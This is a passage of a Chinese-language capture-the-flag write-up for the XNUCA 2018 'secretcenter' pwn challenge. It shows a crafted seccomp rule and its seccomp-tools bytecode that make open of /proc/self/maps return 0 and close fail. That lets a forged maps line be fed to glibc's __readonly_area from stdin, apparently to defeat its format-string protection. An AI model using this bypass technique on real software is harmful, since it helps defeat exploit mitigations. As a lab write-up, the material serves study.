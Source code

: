 里的**_IO_getdelim **会读取文件内容，所以如果我们把`open(/proc/self/maps,0)`的返回值改为0的话，原本是从文件中读取输入，就会变成从输入流中读取，而`open(/proc/self/maps,0)`返回0的话，`fopen`也不会报错，

我们仿造一行：

`000000000000-7fffffffffff r--p 00000000 00:00 0    /fakemap\x00`让`__readonly_area`函数返回1

这里一个坑就是：

```c
  fclose (fp);
  free (line);

  /* If the whole area between ptr and ptr_end is covered by read-only
     VMAs, return 1.  Otherwise return -1.  */
  return size == 0 ? 1 : -1;
```

`__readonly_area`函数的结尾会调用`fclose`,而我们使得`open`的返回值为0，对应输入流，这样`fclose`的话就会把输入流也关闭了，所以还要让`close`返回0

所以我们可以把规则改为：

```
A = arch
A == ARCH_X86_64 ? next : dead
A = sys_number 
A == close ? dead : next
A == open ? next : ok
A = args[0]
A &= 0xff
A == 0x7c ? dead : next
ok:
return ALLOW
dead:
return ERRNO(0)
```

然后用`seccomp-tools`编译一下，得到对应的字节码：

```shell
 ruan@ubuntu  /mnt/hgfs/shared/XNUCA/xnuca2018/pwn/secretcenter/secretcenter  seccomp-tools disasm rule         
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x05 0x00 0x00000003  if (A == close) goto 0009
 0004: 0x15 0x00 0x03 0x00000002  if (A != open) goto 0008
 0005: 0x20 0x00 0x00 0x00000010  A = args[0]
 0006: 0x54 0x00 0x00 0x000000ff  A &= 0xff
 0007: 0x15 0x01 0x00 0x0000007c  if (A == 124) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x00050000  return ERRNO(0)
 ruan@ubuntu  /mnt/hgfs/shared/XNUCA/xnuca2018/pwn/secretcenter/secretcenter  
```
